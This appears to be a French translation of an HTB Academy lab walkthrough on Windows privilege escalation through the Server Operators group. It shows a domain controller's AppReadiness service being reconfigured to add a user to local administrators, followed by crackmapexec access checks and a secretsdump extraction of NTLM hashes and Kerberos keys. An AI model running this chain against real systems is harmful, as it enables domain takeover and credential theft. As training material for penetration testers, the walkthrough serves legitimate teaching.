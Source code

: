 Opérateurs de serveur
================

* * * * *

Le groupe [Opérateurs de serveur](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) permet aux membres d'administrer Windows serveurs sans avoir besoin d'attribuer des privilèges d'administrateur de domaine. Il s'agit d'un groupe très privilégié qui peut se connecter localement aux serveurs, y compris les contrôleurs de domaine.

L'appartenance à ce groupe confère les puissants privilèges `SeBackupPrivilege` et `SeRestorePrivilege` et la possibilité de contrôler les services locaux.

#### Interrogation du service AppReadiness

Examinons le service `AppReadiness`. Nous pouvons confirmer que ce service démarre en tant que SYSTEM à l'aide de l'utilitaire `sc.exe` .

Interroger le service AppReadiness

```
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig RÉUSSITE

SERVICE_NAME : compatibilité avec les applications
         TYPE : 20 WIN32_SHARE_PROCESS
         START_TYPE : 3 DEMAND_START
         ERROR_CONTROL : 1 NORMALE
         BINARY_PATH_NAME : C:\Windows\System32\svchost.exe -k AppReadiness -p
         LOAD_ORDER_GROUP :
         MARQUE : 0
         DISPLAY_NAME : compatibilité avec l'application
         DEPENDANCES :
         SERVICE_START_NAME : système local

```

#### Vérification des autorisations de service avec PsService

Nous pouvons utiliser le visualiseur/contrôleur de service [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), qui fait partie de la suite Sysinternals, pour vérifier les autorisations sur le service. `PsService` fonctionne un peu comme l'utilitaire `sc` et peut afficher l'état et les configurations du service et vous permet également de démarrer, d'arrêter, de mettre en pause, de reprendre et de redémarrer les services localement et sur des hôtes distants.

Vérification des autorisations de service avec PsService

```
C:\htb> c:\Tools\PsService.exe sécurité AppReadiness

PsService v2.25 - Informations sur le service et utilitaire de configuration
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME : compatibilité avec les applications
DISPLAY_NAME : compatibilité avec l'application
         COMPTE : système local
         SÉCURITÉ:
         [AUTORISER] AUTORITE NT\SYSTEME
                 État de la requête
                 Configuration de la requête
                 Interroger
                 Énumérer les personnes à charge
                 Pause/Reprendre
                 Commencer
                 Arrêt
                 Contrôle défini par l'utilisateur
                 Autorisations de lecture
         [AUTORISER] INTÉGRÉ\Administrateurs
                 Tous
         [AUTORISER] AUTORITÉ NT\INTERACTIF
                 État de la requête
                 Configuration de la requête
                 Interroger
                 Énumérer les personnes à charge
                 Contrôle défini par l'utilisateur
                 Autorisations de lecture
         [AUTORISER] AUTORITÉ NT\SERVICE
                 État de la requête
                 Configuration de la requête
                 Interroger
                 Énumérer les personnes à charge
                 Contrôle défini par l'utilisateur
                 Autorisations de lecture
         [AUTORISER] BUILTIN\Opérateurs de serveur
                 Tous

```

Cela confirme que le groupe Opérateurs de serveur dispose du droit d'accès [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights), ce qui nous donne un contrôle total sur ce service.

#### Vérification de l'appartenance au groupe d'administrateurs locaux

Examinons les membres actuels du groupe d'administrateurs locaux et confirmons que notre compte cible n'est pas présent.

Vérification de l'appartenance au groupe d'administrateurs locaux

```
C:\htb> net localgroup Administrateurs

Nom d'alias Administrateurs
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
Administrateurs de domaine
Administrateurs d'entreprise
La commande s'est terminée avec succès.

```

#### Modification du chemin binaire du service

Modifions le chemin binaire pour exécuter une commande qui ajoute notre utilisateur actuel au groupe d'administrateurs locaux par défaut.

Modification du chemin binaire du service

```
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrateurs server_adm /add"

[SC] RÉUSSITE de ChangeServiceConfig

```

#### Démarrage du service

Le démarrage du service échoue, ce qui est attendu.

Démarrage du service

```
C:\htb> sc start AppReadiness

[SC] ÉCHEC du service de démarrage 1053 :

Le service n'a pas répondu à la demande de démarrage ou de contrôle en temps opportun.

```

#### Confirmation de l'appartenance au groupe d'administrateurs locaux

Si nous vérifions l'appartenance au groupe des administrateurs, nous constatons que la commande a été exécutée avec succès.

Confirmation de l'appartenance au groupe d'administrateurs locaux

```
C:\htb> net localgroup Administrateurs

Nom d'alias Administrateurs
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
Administrateurs de domaine
Administrateurs d'entreprise
serveur_adm
La commande s'est terminée avec succès.

```

#### Confirmation de l'accès administrateur local sur le contrôleur de domaine

À partir de là, nous avons un contrôle total sur le contrôleur de domaine et pouvons récupérer untoutes les informations d'identification de la base de données NTDS et accéder à d'autres systèmes, et effectuer des tâches de post-exploitation.

Confirmation de l'accès administrateur local sur le contrôleur de domaine

```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB 10.129.43.9 445 WINLPE-DC01 [*] Windows 10.0 Build 17763 (nom : WINLPE-DC01) (domaine : INLANEFREIGHT.LOCAL) (signature : Vrai) (SMBv1 : Faux)
SMB 10.129.43.9 445 WINLPE-DC01 [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt ! (Pwn3d !)

```

#### Récupération des hachages de mot de passe NTLM à partir du contrôleur de domaine

Récupération des hachages de mot de passe NTLM à partir du contrôleur de domaine

```
dsgsec@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrateur

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Mot de passe:
[*] Vidage des identifiants de domaine (domain\uid:rid:lmhash:nthash)
[*] Utilisation de la méthode DRSUAPI pour obtenir les secrets NTDS.DIT
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
[*] Clés Kerberos saisies
Administrateur : aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrateur : aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrateur :des-cbc-md5 :d60dfbbf20548938
[*] Nettoyer...

```